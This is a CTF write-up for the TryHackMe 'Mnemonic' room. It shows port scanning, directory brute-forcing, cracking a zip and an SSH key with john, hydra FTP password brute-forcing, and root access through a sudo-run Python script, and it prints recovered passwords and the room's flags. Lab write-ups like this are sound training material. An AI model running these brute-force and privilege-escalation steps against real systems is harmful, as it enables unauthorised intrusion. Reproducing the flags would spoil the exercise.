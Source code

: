 # [Mnemonic](https://tryhackme.com/room/mnemonic)

> I hope you have fun.

## Scanning

scan the target

```
nmap -sS -sV -p- -T4 10.10.11.40
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/551de815-428c-4bb6-b888-7419f98493b4)

there are 3 open ports (21 ftp, 80 http, 1337 ssh)

## HTTP

view the webpage

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/019d831f-f977-4b9e-8302-f56ffdfacf21)

check /robots.txt, i found a secret endpoint

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/20950a12-0f55-49cc-b0bb-02382a8d5aaf)

## Enumeration

try enumerate the directory

```
gobuster dir -u http://10.10.11.40/webmasters/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f64a3970-827e-435c-abe7-4d1f80ad1ed3)

next i try the same process with /admin but found nothing interesting, find some backup files

```
gobuster dir -u http://10.10.11.40/webmasters/backups/ -w /usr/share/wordlists/dirb/common.txt -t 30 -x txt,zip
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3e7e366d-1908-47a2-bf6f-f58f84b64c46)

download the backups.zip, it contains a password

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d19e57f4-0110-4e5a-9ef4-cf52811d2beb)

## Cracking

crack it with john

```
zip2john backups.zip > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
john --show hash
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3133c0e3-8d8b-4808-b81b-803c95baba63)

we have a message for ftp user

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d29f2338-e3bc-4e81-94f9-7105472e4d39)

bruteforce ftp login with hydra

```
hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://10.10.11.40
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/0ce0bf41-6641-4357-b729-91b2f77fa3ab)

login to ftp, you find 2 files id_rsa and not.txt

```
ftp 10.10.11.40
ftpuser
love4ever
ls
cd data-4
ls
get id_rsa
get not.txt
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/65483845-7f81-4048-b192-216b5e2a26b6)

the id_rsa contain a passphrase

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f89260ad-649b-4f1a-8367-9b2caaaa04ed)

we must crack it before use

```
python2 /usr/share/john/ssh2john.py id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/34d074ba-ea73-4a85-868d-dd3f3e33ab35)

now, ssh into the machine, enter passphrase and password by `bluelove`

```
chmod 600 id_rsa
ssh james@10.10.11.40 -i id_rsa -p 1337
bluelove
bluelove
```

## Exploitation

at james's home folder, you see 2 files 6450.txt and noteforjames.txt as follow

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/68e2aaae-c0cb-4163-88a2-e74f2089c637)

it says "new encryption İmage based name is Mnemonic", so i found a repo in github

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c1652de7-68a6-4166-9d0e-645de4e959e8)

and i got kick out, cuz the root don't like us here

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/4101f1ac-a66e-4c50-bb7f-ebcc3239ad06)

so, login again, we can't cd but can listing

```
ls -la ../condor
```

i found something in condor

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/4242cdf4-326b-4034-88ab-badbfec50fb3)

```
echo "aHR0cHM6Ly9pLnl0aW1nLmNvbS92aS9LLTk2Sm1DMkFrRS9tYXhyZXNkZWZhdWx0LmpwZw==" | base64 -d
echo "VEhNe2E1ZjgyYTAwZTJmZWVlMzQ2NTI0OWI4NTViZTcxYzAxfQ==" | base64 -d
```

we get an image and first flag

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/7d5d0b70-3711-4acb-9c21-05d0c5cea35b)

| Flag | user.txt |
| --- | --- |
| Answer | THM{a5f82a00e2feee3465249b855be71c01} |

## Privilege Escalation

download the image

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/80c3c11e-e542-4c27-812c-b6156609539f)

decrypt the Mnemonic image

```
git clone https://github.com/MustafaTanguner/Mnemonic
cd Mnemonic
pip3 install colored
pip3 install opencv-python
python3 Mnemonic.py
```

enter location of image file

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/0a6ec9c4-cc1d-487f-a353-bd4e9e43d6f5)

ENCRYPT Message is our 6450.txt at james's home folder

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/03661415-319a-4c2c-aa82-47d04420628e)

back to the machine, we have condor password

```
ssh condor@10.10.11.40 -p 1337
pasificbell1981
```

check sudo permission

```
sudo -l -l
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/25eda361-1f37-49ed-8aad-b97c76a9a085)

review the code at /bin/examplecode.py, function `0 .` allows you to input an execute command

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/9615621b-f3e2-42d1-8126-b4a9ce2b4551)

```
sudo python3 /bin/examplecode.py
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8137c08e-18ec-4606-9dc9-ee3d7e0c89b8)

```
cat /root/root.txt
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d10bc4cc-236d-4319-9c39-8fb9385d1c44)

md5 hash to get answer flag

```
echo -n "congratulationsyoumadeithashme" | md5sum
```

| Flag | root.txt |
| --- | --- |
| Answer | THM{2a4825f50b0c16636984b448669b0586} |
